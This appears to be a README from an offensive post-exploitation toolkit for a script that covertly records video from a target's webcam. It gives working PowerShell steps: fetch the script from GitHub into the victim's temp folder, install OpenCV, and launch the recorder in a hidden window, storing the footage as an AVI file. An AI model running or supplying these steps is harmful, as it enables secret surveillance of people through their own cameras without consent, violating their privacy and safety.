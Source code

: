 ## WebCam.py - Under Develop (Not stable)

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed
[bool](python3 -V)

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
#Search: gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_ -iMatch 'site-packages'}
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -ArgumentList "$Env:TMP\WebCam.py"

#Stop capture
Stop-Process -Name "python3.9" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
```
